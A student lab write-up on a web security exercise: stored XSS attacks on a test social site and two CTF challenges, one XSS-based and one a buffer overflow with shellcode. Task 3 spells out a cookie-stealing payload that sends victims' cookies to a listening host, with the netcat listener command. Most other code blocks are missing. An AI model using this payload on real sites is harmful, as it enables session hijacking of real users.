

# TRABALHO REALIZADO NA SEMANA #10

## 3: Lab Tasks

### Task 1: Posting a Malicious Message to Display an Alert Window

>The objective of this task was to embed a javasript program which will execute when the page is loaded and will display an alter window with 'XSS'.
>
>To do this we will be using Alice as the attacker.
>
>First we will go to Alice's profile page and view the page source. Where we will find her GUID which is 56 (we just make a ctrl+f).
>
>>
>
>We will use this info in order for the alert to not appear when it is Alice viewing her own profile.
>
>From that we can edit alice's profile, and conveniently for us we can edit the 'About me" section using html.\
>To inject the javascrip code we can use the html '
>
>We will add this code to her account:
>
>
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>
>
>The attack was successful.

### Task 2: Posting a Malicious Message to Display Cookies

>Basically the task 2 was the same as the first one but with the appearance of the user's cookie.
>
>To do this we need to change the "About me" on the Alice's edit profile, on the "edit HTML" and write de comand in JS:
>
>>
>
>>
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>>
>
>The attack was successful.

### Task 3: Stealing Cookies from the Victim's Machine

>On this task the goal is to steal the cookies from someone who visits, in our case, Alice's page.
>
>We edited Alice's profile page 'About me' section to instead of having 'Alert(document.cookie)' have:
>
>>document.write('<img src=http://10.9.0.1:5555?c='
+ escape(document.cookie) + ' >');
>
>The '10.9.0.1' is the IP address of the machine while '5555' correspondes to the port location where script will send an HTTP GET to the machine.
>
>The code will be:
>
>>
>
>>
>
>The next step was to open terminal and to use the command 'nc -lknv 5555' which will allow us to see what we are able to steal. (This server program basically prints out whatever is sent by the client and sends to the client whatever is typed by the user running the server.)
>
>When we log in with Samy's account and try to visit Alice's profile we will be redirected to a blank page (trying to load the supposed "image" from our code). But what actually happens is that out terminal will have logged his info: 
>
>
>
>
>This task was also successful and Alice now has Samy's session cookie.

### Task 4: Becoming the Victim’s Friend

>On this task we simulated a request HTML with JS.
>
>The objective was to simulate an "add friend" request without doing a click on the button.
>
>So we basically need to write JS in the "About Me" section of the Samy:
>
>>
>
>And on the section "sendurl = ...;" we putted the URL of that request.
>
>We adquire that by logging in as Alice, access to Network tab with inspect the page and add Samy as a friend. We've got an GET of that and copied the URL of that.
>
>Now if we enter the Samy's profile, us being Alice, without pressing the "Add Friend" button, this was already pressed.
>
>>
>>
>>
>
>The attack was successful.

# CTF

### Challenge 1

>On the first challenge we had a web server at ctf-fsi.fe.up.pt:5002, where we could send requests to the admin asking for the flag.
>
>Since we were able to embed a javasript, we tried using that.\
>By using the following script we were able to get the flag for the first challenge:
>
>>
>
>The flag took a while to appear but what this code does is get the html with the id "giveflag" and click on it.\
>The explanation is that the element when click had a funtion that give us the flag.
>
>Here is the flag:
>
>>

### Challenge 2

>After looking at the main.c provided we found out that the vulnerability was at gets(buffer), since it allows us to write outside of the supposed place allocated for the variable that is being altered (which means this is a buffer overflow attack).
>
>We used an exploit file in python and with the help of pwn (the same tool we used on a past lab), with this we were able to get the address of of the buffer (which is vulnerable).
>
>We then used gdb to analyse the code and got that the offset we needed to alter the return address was 108 bytes.
>
>we also put shellcode that calls /bin/sh, and x90 (which means to advance).
>
>Here is the exploit we used:
>
>>
>
>After running it we get this, which shows the flag:
>
>>
